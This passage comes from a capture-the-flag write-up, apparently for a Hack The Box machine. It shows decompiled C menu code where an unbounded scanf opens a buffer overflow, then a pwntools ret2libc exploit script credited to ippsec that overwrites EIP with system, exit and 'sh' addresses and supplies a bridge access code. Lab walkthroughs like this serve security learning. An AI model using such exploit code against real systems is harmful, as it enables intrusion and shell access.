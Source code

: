 ```c
      result = main_menu();
      break;
    case 3:
      puts("\nSecondary Routines not implemented\nReturning to Main Menu\n\n");
      fflush(stdout);
      result = main_menu();
      break;
    case 4:
      puts("Disable Security Force Fields");
      puts("Enter Security Override:");
      fflush(stdout);
      __isoc99_scanf("%s", &v3);
      result = printf("Rerouting Tertiary EPS Junctions: %s", &v3);
      break;
    case 5:
      puts("\nSecondary Routines not implemented\nReturning to Main Menu\n");
      fflush(stdout);
      result = main_menu();
      break;
    case 6:
      puts("\nSecondary Routines not implemented\nReturning to Main Menu\n\n");
      fflush(stdout);
      result = main_menu();
      break;
    case 7:
      exit(0);
      return result;
    default:
      result = unable();
      break;
  }
  return result;
}
```

From that 7 options just number 1,2,4 is prompt an input with scanf and we could try buffer overflow
But i can't manage to solve this because have `PIE` protection which make i can't get the exact location address for my shellcode because its randomized

After seeing ippsec video about this, actually the `ASLR` is disable in `/proc/sys/kernel/randomize_va_space`
you can verified that by running `ldd /bin/lcars | grep libc`

```python
#script by ippsec
from pwn import *

context(os="Linux", arch="i386")
HOST, PORT= "10.10.10.61", 32812

#EIP Overwrite @ 212
junk = "\x90" * 212

ret2libc = p32(0xf7e4c060) # system
ret2libc += p32(0xf7e3faf0) # exit
ret2libc += p32(0xf7f6ddd5) # sh

payload = junk + ret2libc
r=remote(HOST,PORT)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
```